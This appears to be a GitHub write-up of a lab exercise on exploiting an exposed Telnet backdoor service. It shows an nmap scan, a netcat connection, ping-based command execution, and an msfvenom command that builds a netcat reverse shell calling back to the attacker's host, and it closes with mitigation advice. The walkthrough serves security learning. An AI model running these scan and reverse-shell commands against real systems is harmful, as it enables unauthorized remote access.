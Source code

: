 # Telnet

Telnet is a network protocol used to provide a command-line interface for communication with a remote device or server. It operates over TCP/IP and allows users to log into remote systems, execute commands, and manage devices as if they were directly connected to them.

### Scope:

In this exercise, I will go through the steps of performing enumeration against a target host, and how to identify unsecure protocols (Telnet) that may be enabled on a system and how to take advantage and exploit it. In this case, I will be using MSFvenm for the exploit. I will also be using Wireshark to see how the traffic generated looks like, and to also confirm that the connection has been established. 

### Tools and Technology:
Linux, MSFvenom, and Wireshark

## Enumeration:

To get started, I used Nmap to scan against the target host:

```
nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv
```

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

Based on the output, I can see that port 8012 is open. I then tested the open port using Netcat:

```
nc 10.10.169.221 8012
```

![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So far, based on the information gathered using Nmap and Netcat, I know that following:

+ It looks like the telnet service is running but on a non-default port (8012)
+ The service is name "Skidy's Backdoor"
+ Given the name above, it's possible that a user exists with the name "Skidy"

## Command Execution:

Given the output above, I am able to execute commands on the remote target host. To test, I used the ping command:

```
ping 10.10.8.55 -c1
```

![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)

Looking at Wireshark, I was able to get an ICMP response from the remote server, which means that I was able to execute the command successfully:

![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)

## MSFvenom

MSFVenom is a command-line tool that is part of the Metasploit Framework. MSFVenom can generate a wide variety of payloads, which are pieces of code that exploit vulnerabilities in target systems.

![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)

Next, I generated a reverse shell payload using msfvenom:

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R
```

This is a breakdown of the command I am using:

+ -p = payload
+ lhost = our local host IP address (this is your machine's IP address)
+ lport = the port to listen on (this is the port on your machine)
+ R = export the payload in raw format

![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)

Executing the reverse shell on the remote system:

![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)

Next I needed to create a listening port:

![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

Looking at Wireshark, I can see that the connection was established:

![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)

This is a closer look at one of the packets:

![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)

### Summary:

In this exercise, I was able to identify the telnet service was running on the target host and exploit it using MSFvenom. For mitigation against these types of attacks, it's important to ensure that unsecure protocols such as Telnet, are disabled. If needed, you can replace Telnet with SSH for secure encrypted communications. It's also important to conduct regular security audits and vulnerability assessments to identify and mitigate potential risks associated with Telnet and other services that may be enabled/running as part of a misconfiguration. 

